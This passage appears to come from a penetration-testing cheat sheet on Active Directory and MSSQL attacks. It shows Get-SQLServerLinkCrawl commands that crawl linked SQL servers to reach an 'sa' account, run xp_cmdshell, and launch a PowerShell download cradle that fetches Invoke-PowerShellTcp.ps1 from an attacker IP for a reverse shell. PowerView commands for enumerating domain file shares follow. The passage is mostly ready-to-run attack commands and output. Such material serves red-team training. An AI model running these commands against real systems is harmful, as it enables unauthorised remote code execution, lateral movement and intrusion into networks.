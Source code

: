 ```bash
Get-SQLServerLinkCrawl -Instance mssql-srv.security.local -Verbose


Version     : SQL Server 2017
Instance    : mssql-master-srv
CustomQuery :
Sysadmin    : 1
Path        : {mssql-srv, mssql-srv-eu, mssql-master-srv}
User        : sa
Links       :
```

From the results above the server `mssql-master-srv` is the enterprise level MSSSQL server running with "sa" privileges. The path field shows in order how this is accessible starting with `mssql-srv`. We can check for command execution specifying the first accessible instance in the path which, in this case is `mssql-srv`.

```bash
Get-SQLServerLinkCrawl -Instance "mssql-srv" -Query "exec master..xp_cmdshell 'whoami'"

Version     : SQL Server 2017
Instance    : mssql-master-srv
CustomQuery : {nt authority\network service, }
Sysadmin    : 1
Path        : {mssql-srv, mssql-srv-eu, mssql-master-srv}
User        : sa
Links       :
```

With confirmed command execution under the "sa" account on the `mssql-master-srv` we can then connect remotely by executing a `PowerShell` download cradle

```bash
Get-SQLServerLinkCrawl -Instance mssql-srv -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://<IP>/Invoke-PowerShellTcp.ps1'')"' -E df
```

### Shares and Files Enumeration

**PowerView (Shares)**

```bash
# Find available shares on hosts in the current Domain
Find-DomainShare -Verbose

# Filter out uninteresting print shares
Find-DomainShare -Verbose -CheckShareAccess | Where-Object {$_.Name -ne "print$"} | FT -AutoSize

# Get all file servers on Domain
Get-DomainFileServer

# List all shares on specific domain system
Get-NetShare -ComputerName <Host>
```
